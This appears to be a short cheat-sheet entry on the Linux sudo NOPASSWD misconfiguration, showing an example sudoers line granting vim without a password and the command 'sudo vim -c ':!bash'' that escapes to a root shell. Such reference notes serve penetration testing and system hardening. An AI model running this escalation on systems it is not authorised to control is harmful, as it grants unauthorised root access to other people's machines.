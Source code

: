# Sudo NOPASSWD Misconfiguration

**Platform**: Linux  
**Category**: Misconfiguration  
**Technique**: Running commands as root without password

## Description

If `sudoers` grants a user the ability to run certain commands with `NOPASSWD`, and those commands can escape to a shell (like `less`, `vim`, `python`, etc.), user can escalate to an elevated shell as root.

## Requirements

- User must be allowed to run a binary without password. i.e. :

```bash
dan ALL=(ALL) NOPASSWD: /usr/bin/vim
```

## Exploitation

```bash
sudo vim -c ':!bash'
```

Escaping via vim into a shell with elevated prevleges.
